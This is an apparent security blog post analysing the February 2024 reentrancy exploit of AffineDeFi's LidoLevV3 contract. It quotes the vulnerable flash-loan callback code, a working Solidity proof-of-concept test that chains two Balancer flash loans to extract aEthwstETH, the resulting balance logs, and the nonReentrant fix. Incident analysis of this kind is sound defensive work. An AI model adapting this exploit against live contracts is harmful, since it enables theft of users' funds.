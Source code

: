 
# AffineDeFi


## What's AffineDeFi?

Affine is the world's first cross-chain investment and savings app. We make it simple for users to onboard funds in an efficient and affordable manner using Polygon while gaining access to investment opportunities on multiple chains.

## Amount stolen
~$88K USD

Feb 1, 2024

## Vulnerability
Reentrancy

## Analysis

The exploiter successfully repaid the initial flash loan using a subsequent flash loan.

### Vulnerable code

```solidity
    /// @notice Callback called by balancer vault after flashloan is initiated.
    function _flashLoan(uint256 amount, LoanType loan, address recipient) internal {
        ERC20[] memory tokens = new ERC20[](1);
        tokens[0] = WETH;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = amount;
        BALANCER.flashLoan({
            recipient: IFlashLoanRecipient(address(this)),
            tokens: tokens,
            amounts: amounts,
            userData: abi.encode(loan, recipient)
        });
    }
```

```solidity

function receiveFlashLoan(
    ERC20[] memory, /* tokens */
    uint256[] memory amounts,
    uint256[] memory, /* feeAmounts */
    bytes memory userData
) external override {
    if (msg.sender != address(BALANCER)) revert onlyBalancerVault();

    uint256 ethBorrowed = amounts[0];

    // Decode the userData to get the LoanType
    (LoanType loan, address newStrategy) = abi.decode(userData, (LoanType, address));

    // Switch or if-else statement to handle different LoanTypes
    if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
    } else if (loan == LoanType.invest) {
        _addToPosition(ethBorrowed);
    } else if (loan == LoanType.upgrade) {
        _payDebtAndTransferCollateral(LidoLevV3(payable(newStrategy)));
    } else {
        _rebalancePosition(ethBorrowed, loan);
    }

    // Payback wETH loan
    WETH.safeTransfer(address(BALANCER), ethBorrowed);
}

   function _addToPosition(uint256 ethBorrowed) internal {
        // withdraw eth from weth
        WETH.withdraw(ethBorrowed);

        (bool success,) = payable(address(WSTETH)).call{value: ethBorrowed}("");

        require(success, "LLV3: WstEth failed");
        // Deposit wstETH in AAVE
        AAVE.deposit(address(WSTETH), WSTETH.balanceOf(address(this)), address(this), 0);

        // Borrow 90% of wstETH value in ETH using e-mode
        uint256 ethToBorrow = ethBorrowed - WETH.balanceOf(address(this));
        AAVE.borrow(address(WETH), ethToBorrow, 2, 0, address(this));
    }
```

# proof of concept (PoC) 


### first flash loan:
-  `flashloan` is called with `amount[0] = 318973831042619036856`
- The Balancer pool initiates a flash loan of WETH to the `LidoLevV3` contract, using the specified `userencodeData` 


`userencodeData` is to determine the action

LidoLevV3.sol
```solidity
   /// @notice The different reasons for a flashloan.
    enum LoanType {
        invest,
        divest,
        upgrade,
        incLev,
        decLev
    }
```

### LidoLevV3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the flash loan.
- The `LoanType.invest` case is triggered in the `receiveFlashLoan` function.
- `_addToPosition` is called, which involves borrowing WETH, converting it to wstETH, depositing in AAVE, and borrowing again.

### Second Flash Loan:
- `flashloan` is called with `amount2[0] = 0`.
- The Balancer pool initiates a flash loan of 0 WETH to the `LidoLevV3` contract,
- using the specified `userencodeData2`. 

### LidoLev3 (`receiveFlashLoan` function):
- The `LidoLevV3` contract receives the second flash loan.
- The `LoanType.divest` case is triggered in the `receiveFlashLoan` function.
- `_endPosition` is called, which involves repaying debt in AAVE, unlocking collateral, and converting it back to ETH.

```solidity

 function testExploit() external {
        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance before attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );

        bytes memory userencodeData = abi.encode(1, address(this));
        bytes memory userencodeData2 = abi.encode(2, address(this));
        uint256[] memory amount = new uint256[](1);
        uint256[] memory amount2 = new uint256[](1);
        IERC20[] memory token = new IERC20[](1);

        token[0] = IERC20(WETH);
        amount[0] = 318973831042619036856;
        amount2[0] = 0;
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount, userencodeData);
        IBalancer(Balancer).flashLoan(IFlashLoanRecipient(LidoLevV3), token, amount2, userencodeData2);

        emit log_named_decimal_uint(
            "Exploiter aEthwstETH balance after attack",
            IERC20(aEthwstETH).balanceOf(address(this)),
            IERC20(aEthwstETH).decimals()
        );
    }
```

### Balance Check:

Logs:
```
  Exploiter aEthwstETH balance before attack: 0.000000000000000000
  Exploiter aEthwstETH balance after attack: 33.698806193381635860
```

### Funds Movement Analysis:
- The first flash loan involves borrowing WETH, leveraging it in the `LidoLevV3` contract, and repaying the flash loan.
- The second flash loan involves repaying the flash loan without borrowing additional funds.


### Exploited Code
When the `LoanType` is `LoanType.divest`, the `_endPosition` function is called, which handles the divestment logic and ultimately repays the first flash loan. This ensures that the funds borrowed in the first flash loan are used as part of the divestment process, resulting in the repayment of the initial flash loan.

```solidity
if (loan == LoanType.divest) {
        _endPosition(ethBorrowed);  // This function handles divestment and repays the first flash loan
```



### How did they resolve this problem?

`nonReentrant` was added to prevent Reentrancy on the flash loan, to ensure the first flash loan gets repaid within the same
transaction


```solidity
 function _flashLoan(uint256 amount, LoanType loan, address recipient) internal nonReentrant {
        ERC20[] memory tokens = new ERC20[](1);
        tokens[0] = WETH;
        uint256[] memory amounts = new uint256[](1);
        amounts[0] = amount;
        BALANCER.flashLoan({
            recipient: IFlashLoanRecipient(address(this)),
            tokens: tokens,
            amounts: amounts,
            userData: abi.encode(loan, recipient)
        });
    }
```

The addition of `require(_reentrancyGuardEntered(), "LLV3: Invalid FL origin");` serves as an additional layer of security to reinforce the protection against reentrancy issues during flash loans

```solidity
 function receiveFlashLoan(
        ERC20[] memory, /* tokens */
        uint256[] memory amounts,
        uint256[] memory, /* feeAmounts */
        bytes memory userData
    ) external override {
        if (msg.sender != address(BALANCER)) revert onlyBalancerVault();
        require(_reentrancyGuardEntered(), "LLV3: Invalid FL origin");
```



## Conclusion
While the first flash loan involved leveraging and borrowing funds,
the second flash loan aimed at repaying the flash loan without additional borrowing.
The funds moved within the LidoLevV3 contract during the flash loan transactions. 
The contract logs the balance of aEthwstETH before and after the flash loan attacks.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/AffineDeFi_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
